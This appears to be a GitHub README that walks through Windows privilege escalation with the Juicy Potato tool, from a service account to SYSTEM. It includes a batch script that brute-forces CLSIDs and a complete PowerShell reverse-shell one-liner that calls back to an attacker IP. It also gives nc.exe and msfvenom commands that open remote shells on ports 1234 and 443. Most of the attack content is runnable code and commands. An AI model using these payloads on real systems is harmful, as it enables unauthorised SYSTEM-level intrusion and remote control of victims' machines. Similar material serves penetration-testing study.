 # Juicy-Potato
Juicy Potato is a Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

# Exploitation
First Check that you've SeImpersonatePrivilege Enabled

whoami /priv

![OnPaste 20220606-195812](https://user-images.githubusercontent.com/106917304/172181384-a233e095-62a2-4088-90f9-40312107bdbc.png)



With systeminfo we can see the target OS name

![OnPaste 20220606-185951](https://user-images.githubusercontent.com/106917304/172170491-77cc6851-f294-4156-9076-0a917bd08776.png)


Traget Arch

![OnPaste 20220606-190251](https://user-images.githubusercontent.com/106917304/172170739-bddac064-d18f-4f70-95fe-8ed3c94c7e7a.png)


Now we gonna get CLSID for our target machine

Resource: https://github.com/ohpe/juicy-potato/tree/master/CLSID <link>

Here my traget is Windows 7 Professional i can go for Windows 7 Enterprise, copy all the CLSID from CLSID.list file.

Open your favourite editor and paste all the CLSID and name the file CLSID.list.

Our target machine is x32-bit arch. Grab the Juicy Potato binary for 32-bit os.

Resource: https://github.com/k4sth4/Juicy-Potato <link>

We gonna make a test.bat file which gonna help you to execute the jp32.exe and find you a valid CLSID for attack.

Content of our test.bat file

```markdown

@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\Users\Bob\Desktop\CLSID.list) DO (
echo %%i !port!
C:\Users\Bob\Desktop\jp32.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)

```
# Changes to Make
Note: C:\Users\Bob\Desktop\CLSID.list and C:\Users\Bob\Desktop\jp32.exe are the place where we gonna upload our CLSID.list file and jp32.exe (juicy potato 32-bit).


# Using Powershell
Next we gonna create shell.bat file for our reverse ahell.

```markdown

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.x.x',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

# Changes to make
NOTE: '10.10.x.x',1234 is the attacker IP and listening port for our reverse shell.



# Using msfvenom or nc.exe binary
generate a shell.exe binary using msfvenom.


Now upload jp32.exe, test.bat, CLSID.list, shell.bat or shell.exe / nc.exe to the user Desktop (same path that we used in our test.bat).

![OnPaste 20220606-192729](https://user-images.githubusercontent.com/106917304/172175237-70da4fdd-2e92-447e-a23d-622692e8b732.png)


Now execute the test.bat
        
        powershell Start-Process c:\Users\Bob\Desktop\test.bat  (if not in powershell)                                                           
        Start-Process c:\Users\Bob\Desktop\test.bat             (if in powershell) 
        
 Now wait for 5-mins you will see result.log file is created type the file you gonna see bunch of CLSID.
 
 ![OnPaste 20220606-193222](https://user-images.githubusercontent.com/106917304/172176176-c227b6c8-dd0b-4d31-9f75-f04a4dabb570.png)

We're insterested in SYSTEM CLSID. Grab one of SYSTEM CLSID.

Now we've found valid CLSID for SYSTEM we can use that CLSID and get system shell.

# Reverse Shell

# Using POwershell shell.bat

```markdown

c:\Users\Bob\Desktop\JuicyPotato.exe -l 1234 -p c:\Users\Bob\Desktop\shell.bat -t * -c {c980e4c2-c178-4572-935d-a8a429884806} 

```

# Using nc.exe

```markdown

c:\Users\Bob\Desktop\jp32.exe -l 443 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Bob\Desktop\nc.exe -e cmd.exe 192.168.49.154 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}

```

# Using shell.exe 

```markdown

c:\Users\Bob\Desktop\jp32.exe -l 443 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Bob\Desktop\shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

```

![OnPaste 20220606-195312](https://user-images.githubusercontent.com/106917304/172180304-91e48267-0a99-43cd-bd33-0f13c36c90d9.png)

We're now SYSTEM.

![OnPaste 20220606-195431](https://user-images.githubusercontent.com/106917304/172180726-4bdb1672-1a35-4e06-8458-a873b49c6926.png)


